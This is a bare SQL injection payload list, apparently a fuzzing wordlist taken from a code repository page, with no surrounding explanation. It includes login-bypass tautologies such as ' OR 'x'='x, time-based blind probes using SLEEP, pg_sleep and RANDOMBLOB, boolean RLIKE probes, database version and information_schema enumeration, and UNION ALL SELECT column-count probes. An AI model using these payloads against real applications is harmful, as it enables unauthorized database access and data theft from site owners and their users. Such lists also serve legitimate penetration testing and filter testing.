 ```
' or userid like '%
' or user like '%
' or username like '%
") or ("x")=("x
")) or (("x"))=(("x
') or ('x')=('x
') or ('x'='x
')) or (('x'))=(('x
' OR 'x'='x
' OR 'x'='x'#;
OR x=x
OR x=x#
OR x=x-- 
OR x=y
OR x=y#
OR x=y-- 
pg_sleep(5)--
pg_SLEEP(5)
pg_SLEEP(5)#
pg_SLEEP(5)--
RANDOMBLOB(1000000000/2)
RANDOMBLOB(500000000/2)
RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
SELECT * FROM information_schema.tables
,(select * from (select(sleep(10)))a)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
SELECT * FROM v$version
SELECT @@version
SELECT version()
+ SLEEP(10) + '
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
sleep(5)#
&&SLEEP(5)
&&SLEEP(5)#
&&SLEEP(5)--
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
'&&SLEEP(5)&&'1
--
UNION ALL SELECT 1
UNION ALL SELECT 1#
UNION ALL SELECT 1-- 
UNION ALL SELECT 1,2
UNION ALL SELECT 1,2#
UNION ALL SELECT 1,2-- 
UNION ALL SELECT 1,2,3
UNION ALL SELECT 1,2,3#
UNION ALL SELECT 1,2,3-- 
UNION ALL SELECT 1,2,3,4
UNION ALL SELECT 1,2,3,4#
UNION ALL SELECT 1,2,3,4-- 
UNION ALL SELECT 1,2,3,4,5
UNION ALL SELECT 1,2,3,4,5#
UNION ALL SELECT 1,2,3,4,5-- 
UNION ALL SELECT 1,2,3,4,5,6
UNION ALL SELECT 1,2,3,4,5,6#
UNION ALL SELECT 1,2,3,4,5,6-- 
UNION ALL SELECT 1,2,3,4,5,6,7
```